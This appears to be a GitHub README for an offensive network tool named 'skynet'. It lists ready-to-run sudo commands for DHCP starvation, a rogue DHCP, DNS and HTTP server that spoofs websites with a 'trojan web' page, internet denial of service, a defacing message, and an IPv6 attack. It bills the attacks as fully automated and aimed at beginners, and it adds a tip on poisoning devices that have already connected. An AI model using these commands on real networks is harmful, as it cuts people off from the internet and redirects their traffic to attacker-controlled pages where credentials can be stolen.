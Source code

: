 # Skynet Command Showcase

This repository demonstrates various skynet commands and attacks. Each command is accompanied by a brief description and an image illustrating the attack.
This modes of attack are 100% automated. The user only have to execute it and wait. They are designed for beginners.
**IMPORTANT: to try to poison devices that have already connected, use "--delete-leases-attack" argument with all the command.**

## Table of Contents

1. [Command 1: Website spoofing](#command-1-website-spoofing)
2. [Command 2: Internet DoS](#command-2-internet-DoS)
3. [Command 3: Passive internet DoS with message](#command-3-passive-internet-DoS-with-message)
4. [Command 4: IPv6 attack](#command-4-IPv6-attack)

## Command 1: Website spoofing

### Description
First does a DoS to the legit DHCP, then starts a rogue DHCP+DNS+HTTP server instances. All in the second phase pointing to the attacker's machine.

### Command
```bash
sudo ./skynet --attack --create-pool --all-queries-to-this-host --create-trojan-web 0
```

### Image
![spoofing](../images/website-spoofing.png)

## Command 2: Internet DoS

### Description
This attack leaves hosts that receive configuration via DHCP without an Internet connection.

### Command
```bash
sudo ./skynet --fast-attack --create-random-pool
```

### Image
![Internet DoS](../images/internet-DoS.png)

## Command 3: Passive internet DoS with message

### Description
This attack leaves a message on the server it attacks and leaves without internet due to the absence of a DHCP server.

### Command
```bash
sudo ./skynet --leave-a-message "t-P0wned HAHA" --attack
```

### Image
![Passive internet DoS with message](images/passive-internet-DoS-with-message.png)

## Command 4: IPv6 attack

### Description
This attack is for the IPv6 protocol.

### Command
```bash
sudo ./skynet --ipv6 --no-draw --continued-attack
```

### Image
![IPv6 attack](images/IPv6-attack.png)
